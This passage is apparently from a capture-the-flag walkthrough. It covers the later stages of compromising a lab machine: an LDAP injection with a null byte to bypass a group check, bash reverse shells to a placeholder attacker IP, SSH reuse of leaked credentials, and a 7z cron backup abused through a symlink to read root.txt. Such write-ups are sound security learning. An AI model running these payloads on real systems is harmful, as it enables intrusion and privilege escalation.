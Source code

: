 ### 12. Bypassing Group Membership Check
- **Technique**: Used LDAP injection with a null byte to bypass group membership check (`memberOf ADM` or `root`).
- **Steps**:
  - Crafted query: `LDAPuser%00` to terminate the LDAP query early.
  - Sent via Burp Suite, avoiding double URL encoding by the browser.
  - Successfully logged in, receiving a command execution interface.
- **Purpose**: Gain command execution by bypassing LDAP query restrictions.

### 13. Command Execution and Reverse Shell
- **Technique**: Executed commands via the web interface and established a reverse shell.
- **Steps**:
  - Issued `whoami` command, confirming `apache` user.
  - Attempted reverse shell: `bash -c "bash -i >& /dev/tcp/[ATTACKER-IP]/9001 0>&1"`.
  - Switched to port 443 due to firewall restrictions: `bash -c "bash -i >& /dev/tcp/[ATTACKER-IP]/443 0>&1"`.
  - Established reverse shell as `apache` user.
- **Purpose**: Gain interactive shell access to the system.

### 14. SSH Access as LDAPuser
- **Technique**: Used LDAP credentials found in `login.php` to SSH into the box.
- **Steps**:
  - Inspected `login.php` to find LDAP bind credentials: `LDAPuser` and password.
  - SSH command: `ssh LDAPuser@[TARGET-IP]`.
  - Successfully logged in and accessed `user.txt`.
- **Purpose**: Gain a more stable shell with proper TTY support.

### 15. Privilege Escalation via Backup Script
- **Technique**: Exploited a backup script to read `root.txt` via symbolic link manipulation.
- **Steps**:
  - Identified a cron job running `honeypot.sh` every minute, creating 7z backups in `/backup`.
  - Noted script used relative paths and a list file for archiving.
  - As `apache` user, created files in `/var/www/html/uploads`:
    - `touch @pleasesub`
    - `ln -s /root/root.txt /var/www/html/uploads/pleasesub`
  - Waited for cron job to run, which archived `root.txt` contents into an error log due to access denial.
  - Read the error log to extract the `root.txt` hash.
- **Purpose**: Obtain the root flag without full root access.

### Summary
The exploitation involved:
- Enumerating services and identifying a web-based login system.
- Discovering LDAP injection to enumerate usernames and attributes.
- Brute-forcing an 81-digit token using a Python script.
- Synchronizing time to generate valid OTPs with `stoken`.
- Bypassing group checks with LDAP injection.
- Gaining command execution and a reverse shell as `apache`.
- Using SSH as `LDAPuser` for stable access.
- Exploiting a backup script to read `root.txt` via symbolic link manipulation.
